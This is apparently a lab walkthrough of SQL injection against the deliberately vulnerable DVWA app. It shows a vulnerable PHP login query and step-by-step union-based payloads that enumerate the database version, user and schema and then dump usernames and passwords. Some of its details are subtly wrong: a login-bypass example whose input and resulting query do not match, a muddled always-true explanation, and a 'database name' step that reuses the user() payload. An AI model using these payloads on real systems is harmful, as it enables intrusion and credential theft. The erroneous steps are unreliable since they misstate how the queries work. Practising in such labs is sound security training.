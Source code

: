 ## What is SQL injection (SQLi)?
- SQL injection is one of the most common attacks used by hackers to exploit any SQL database-driven web application. It’s a technique where SQL code/statements are inserted in the execution field with an aim of either altering the database contents, dumping useful database contents to the hacker, cause repudiation issues, spoof identity, and much more.

Let’s take a simple scenario where we have a web application with a login form with username and password fields. If the developer used PHP for development, the code would look like this:
```php
<?php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
$query .= " AND password = '" . $_POST['password'] . "'"; 
?>
```

If a user **Bob** with the password **12345** wanted to log in, after clicking the Submit or the Log in button, the query that would be sent to the database would look like this:
```
SELECT * FROM users WHERE username='Bob' AND password='12345'
```

If an attacker knew the username and wanted to bypass the login window, they would put something like Karen;-- in the username field. The resulting SQL query would look like this:
```
SELECT * FROM users WHERE username='Bob'; -- ' AND password='1111'
```

What the attacker has done, is adding the **-- (double-dash)** which comments the rest of the SQL statement. The above query will return the information entered in the password field making it easier for the attacker to bypass the login screen.

## Pre-requisites
It is expected that you have an up and running **DVWA** setup. If you have not yet installed DVWA on your Kali Linux system, I recommend you to setup up DVWA first.

### Step 1. Setup DVWA for SQL Injection
After successfully installing DVWA, open your browser and enter the required URL **127.0.0.1/dvwa/login.php** Log in using the username “admin” and password as “password”. These are the default DVWA login credentials. After a successful login, set the DVWA security to LOW then click on SQL Injection on the left-side menu.

![DVWA-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311507-0b61b195-902f-461b-9dae-4efcf1a18138.png)

### Step 2: Basic Injection
On the User ID field, enter `1` and click Submit. That is supposed to print the **ID**, **First_name**, and **Surname** on the screen as you can see below.

The SQL syntax being exploited here is:
```
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

![DVWA-Basic-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311560-5f40c075-9a85-41fd-89e3-1a20217d0b67.png)

Interestingly, when you check the **URL**, you will see there is an **injectable parameter** which is the `ID`. Currently, my URL looks like this:

```
http://172.16.15.128/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
```

Let’s change the ID parameter of the URL to a number like **1**, **2**, **3**, **4** etc. That will also return the **First_name** and **Surname** of all users as follows:

```
ID: 2
First name: Gordon
Surname: Brown

ID: 3
First name: Hack
Surname: Me

ID: 4
First name: Pablo
Surname: Picasso
```

If you were executing this command directly on the DVWA database, the query for User ID 3 would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '3';
```

### Step 3: Always True Scenario

An advanced method to extract all the **First_names** and Surnames from the database would be to use the input: `%' or '0'='0'`

![always-true-injection](https://user-images.githubusercontent.com/87711310/215312500-aa366d48-3202-430b-b696-c2d46fcedcad.png)

The percentage `%` sign does not equal anything and will be false. The `'1'='1'` query is registered as `True` since `1 will always equal 1`. If you were executing that on a database, the query would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '%' or '1'='1';
```

### Step 4: Display Database Version

To know the database version the DVWA application is running on, enter the text below in the User ID field.

```
%' or 0=0 union select null, version() #
```

The database version will be listed under surname in the last line as shown in the image below.

![Display-databse-version](https://user-images.githubusercontent.com/87711310/215312575-e4eb3220-3b58-40e6-8b6c-7cf5933bb931.png)

### Step 5: Display Database User
To display the Database user who executed the `PHP` code powering the database, enter the text below in the `USER ID` field.

```
%' or 0=0 union select null, user() #
```

The Database user is listed next to the surname field in the last line as in the image below.

![Display-database-user](https://user-images.githubusercontent.com/87711310/215312635-9c762216-088f-4023-8d31-aa90c3d72c63.png)


## Step 6: Display Database Name
To display the database name, we will inject the SQL code below in the `User ID` field.

```
%' or 0=0 union select null, user() #
```

The database name is listed next to the `surname` field in the last line.

![Display-database-name](https://user-images.githubusercontent.com/87711310/215312720-544711cf-ef6e-483c-a02c-26ee00a55e27.png)

### Step 7: Display all tables in information_schema

The **Information Schema** stores information about **tables**, **columns**, and all the other databases maintained by **MySQL**. To display all the tables present in the **information_schema**, use the text below.

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

![Database-schema](https://user-images.githubusercontent.com/87711310/215312779-b6e44ddc-b9fb-4fe8-8ce6-01bdd99d6697.png)

### Step 8: Display all the user tables in information_schema

For this step, we will print all the tables that start with the prefix user as stored in the **information_schema**. Enter the SQL code below in the `User ID`.

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

![User-tables](https://user-images.githubusercontent.com/87711310/215312862-ba13e852-b31d-47f1-8c98-79ba30d213d9.png)

### Step 9: Display all the columns fields in the information_schema user table
We will print all the columns present in the users’ table. This information will include column information like User_ID, first_name, last_name, user, and password. Enter the input in the User_ID field.

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![Column-fields](https://user-images.githubusercontent.com/87711310/215313624-3b439ca3-32d4-4db8-9982-ff0388e16680.png)



### Step 10: Display Column field contents
To display all the necessary authentication information present in the columns as stored in the information_schema, use the SQL syntax below:

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

![Column-fields-contents](https://user-images.githubusercontent.com/87711310/215313623-a5c58e25-f3d6-482b-aa93-76f1dc4a444a.png)
